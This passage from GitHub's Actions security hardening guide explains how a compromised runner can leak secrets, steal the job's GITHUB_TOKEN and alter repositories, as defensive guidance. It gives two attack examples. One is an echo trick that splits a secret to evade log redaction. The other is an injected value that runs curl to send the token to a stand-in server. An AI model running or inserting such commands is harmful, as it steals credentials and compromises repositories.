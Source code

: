 ```
with:
    key: ${{ secrets.PUBLISH_KEY }}

```



Although GitHub Actions scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.
### [Exfiltrating data from a runner](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#exfiltrating-data-from-a-runner)
An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, GitHub Actions [automatically redact secrets printed to the log](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.
### [Stealing the job's `GITHUB_TOKEN`](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#stealing-the-jobs-github_token)
It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The GitHub Actions runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#`.
### [Modifying the contents of a repository](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#modifying-the-contents-of-a-repository)
The attacker server can use the GitHub API to [modify repository content](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token).
## [Considering cross-repository access](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#considering-cross-repository-access)
GitHub Actions is intentionally scoped for a single repository at a time. The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file, elevating the permissions of the `GITHUB_TOKEN` if necessary. Users have specific permissions for each repository, so allowing the `GITHUB_TOKEN` for one repository to grant access to another would impact the GitHub permission model if not implemented carefully. Similarly, caution must be taken when adding GitHub authentication tokens to a workflow, because this can also affect the GitHub permission model by inadvertently granting broad access to collaborators.
If your organization is owned by an enterprise account, then you can share and reuse GitHub Actions by storing them in internal repositories. For more information, see [Sharing actions and workflows with your enterprise](https://docs.github.com/en/actions/creating-actions/sharing-actions-and-workflows-with-your-enterprise).
You can perform other privileged, cross-repository interactions by referencing a GitHub authentication token or SSH key as a secret within the workflow. Because many authentication token types do not allow for granular access to specific resources, there is significant risk in using the wrong token type, as it can grant much broader access than intended.